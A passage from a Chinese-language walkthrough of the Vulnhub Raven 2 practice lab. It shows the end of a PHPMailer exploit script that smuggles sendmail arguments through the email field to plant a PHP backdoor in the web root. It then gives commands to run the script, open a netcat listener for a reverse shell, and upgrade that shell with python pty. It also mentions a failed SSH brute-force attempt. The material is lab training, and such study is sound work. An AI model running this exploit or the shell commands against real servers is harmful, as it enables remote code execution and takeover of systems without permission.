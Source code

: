 ```python
        'email': '"anarcoder\\\" -OQueueDirectory=/tmp -X/var/www/html/test.php server\" @protonmail.com',
        'message': 'Pwned'}

m = MultipartEncoder(fields=fields,
                     boundary='----WebKitFormBoundaryzXJpHSq4mNy35tHe')

headers={'User-Agent': 'curl/7.47.0',
         'Content-Type': m.content_type}

proxies = {'http': 'localhost:8081', 'https':'localhost:8081'}


print('[+] SeNdiNG eVIl SHeLL To TaRGeT....')
r = requests.post(target, data=m.to_string(),
                  headers=headers)
print('[+] SPaWNiNG eVIL sHeLL..... bOOOOM :D')
r = requests.get(target+backdoor, headers=headers)
if r.status_code == 200:
    print('[+]  ExPLoITeD ' + target)
```

我这里安装模块的`pip`有问题，无法直接安装缺失的模块，所以使用`python`开启一个虚拟环境

```shell
python3 -m venv ./my_venv
source my_venv/bin/activate
```

这时候就已经启动虚拟环境了，当然想要退出虚拟环境，只需要输入命令`deactivate`即可

这时再把缺失的模块使用`pip`安装，然后执行`python3 40974.py`即可

![](D:\stu\vulnhub\OSCP必刷靶场\raven系列\pic-2\17.jpg)

先在`kali`开启监听端口9999

```shell
nc -lvvp 9999
```

然后浏览器访问地址`http://192.168.10.9/test.php`，注意，这里访问的不是执行后提供的地址。

这里是把脚本写入到`/var/www/html`下的，所以直接访问即可

![](D:\stu\vulnhub\OSCP必刷靶场\raven系列\pic-2\18.jpg)

做到这里，我大概知道了，因为在发现两个用户的时候，就开始进行`ssh`爆破了，就是不能成功，所以这里是必须采用`php mailer`漏洞利用

使用`dpkg`测试靶机是否安装`python`，以及什么版本，然后使用`python`获取一个交互式的界面即可

```shell
dpkg -l | grep python
python -c 'import pty;pty.spawn("/bin/bash")'
```

# 靶机内信息收集
